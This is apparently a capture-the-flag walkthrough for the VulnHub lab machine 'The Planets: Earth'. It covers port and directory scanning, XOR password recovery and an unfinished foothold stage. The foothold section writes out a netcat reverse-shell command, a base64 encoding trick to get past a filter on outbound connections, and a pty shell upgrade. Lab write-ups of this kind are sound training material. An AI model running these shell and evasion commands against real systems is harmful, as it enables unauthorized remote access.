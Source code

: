 Link: [The Planets: Earth](https://www.vulnhub.com/entry/the-planets-earth,755/)

[Walkthrough (Video) by Techno Science](https://youtu.be/e9de7AK0i2s):
Walkthrough (Text): 

## Enumeration
Interface name: `ifconfig`

Get target IP: `sudo netdiscover -i eth1` - Interface name

Network Scan for Open Ports: `nmap -sV -sC -v -T4 192.168.56.103 `
No. of open ports: 3 
2 Host names

`sudo nano /etc/hosts`
Paste host name with IP address
`192.168.56.193 earth.local terratest.earth.local`
CTRL+X+ENTER  

Open browser
`earth.local`

Directory Busting - GoBuster
`gobuster dir -u https://earth.local/ -w /usr/share/wordlist/dirb/common.txt` - `-u` is for target URL, `-w` is to specify word list
- Found admin page 
earth.local/admin -> Login 
- Find credentials 
- Second DNS: Test site, give credentials
https://terratest.earth.local -> Accept risk
- Brute force directory using GoBuster
`gobuster dir -u https://terratest.earth.local/ -k -w /usr/share/wordlist/dirb/common.txt`
- robots.txt
  - testingnotes.txt -> XOR encryption as algorithm
 
 ## Decrypting:
 - Cyberchef download on google, save file
 
 ![image](https://user-images.githubusercontent.com/80029462/235673037-efdf02fe-ab4d-4a44-aff9-608f59213e31.png)
 
Use Wired Connection 1 if server error
- After download change back to usual connection
- Extract file, click on HTNL
- Open test data, decrypt them to XOR, drag drop hex and XOR.
- Key: update from testdata.txt, set to UTF8
- Copy and paste one by one
  - Get repeating string = Password for user 'terra'


## Foothold
Login with password
CLI command line interface 
`whoami`
- Find user flag: `ls /var/earth_web/user_flag.txt`
Command line: (Flag)

In terminal:
`ifconfig` to get machine IP
`nc -lvnp 4444` - listening port 

Remote command line shell using Netcat:
`nc -e /bin/bash machine IP (from above) 4444`

Remove connections are forbidden
- bypass by converting it to decimal notation / encode command in base64

In terminal:
`echo nc -e /bin/bash machine IP (from above) 4444 | base64`
- Copy output and run with `output | base64 -d | bash`

`python -c 'import pty;pty.spawn("/bin/bash")'`

## Priviledge Escalation

To be continued...
